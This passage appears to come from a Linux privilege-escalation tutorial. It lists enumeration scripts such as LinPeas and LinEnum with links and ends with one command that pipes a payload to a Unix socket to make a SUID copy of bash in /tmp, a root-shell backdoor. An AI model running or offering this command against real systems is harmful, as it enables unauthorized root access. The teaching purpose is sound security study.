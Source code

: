 The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

-   **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
-   **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-   **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-   **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-   **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | nc - UNIX-CLIENT:/request